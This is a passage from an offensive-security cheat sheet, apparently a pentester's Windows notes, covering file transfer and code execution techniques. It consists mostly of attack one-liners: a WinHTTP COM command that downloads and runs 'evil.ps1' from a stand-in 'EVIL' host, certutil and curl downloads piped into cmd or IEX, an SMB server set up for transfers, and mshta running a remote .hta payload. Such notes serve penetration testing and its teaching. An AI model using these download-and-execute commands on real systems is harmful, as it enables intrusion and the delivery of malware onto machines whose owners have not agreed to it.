 

#### [](#header-4)Remote Desktop

```
rdesktop 10.10.10.10 -r disk:linux='/home/user/filetransferout'
```



#### [](#header-4) WinHTTP Com Object

```
[System.Net.WebRequest]::DefaultWebProxy
[System.Net.CredentialCache]::DefaultNetworkCredentials
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText
```



#### [](#header-4) CertUtil

```powershell
#File Transfer

certutil.exe -urlcache -split -f https://m0chan:8888/filename outputfilename

#CertUtil Base64 Transfers

certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
```



#### [](#header-4)Curl (Windows 1803+)

```powershell
curl http://server/file -o file
curl http://server/file.bat | cmd

IEX(curl http://server/script.ps1);Invoke-Blah
```



#### [](#header-4) SMB

```powershell
python smbserver.py Share `pwd` -u m0chan -p m0chan --smb-2support
```



## [](#header-2)Exploit


#### Code Execution with MSHTA

```powershell

mshta.exe is a default binary shipped on all versions of Windows which allows the execution of .hta payloads

mshta.exe https://m0chan.com/exploit.hta

```
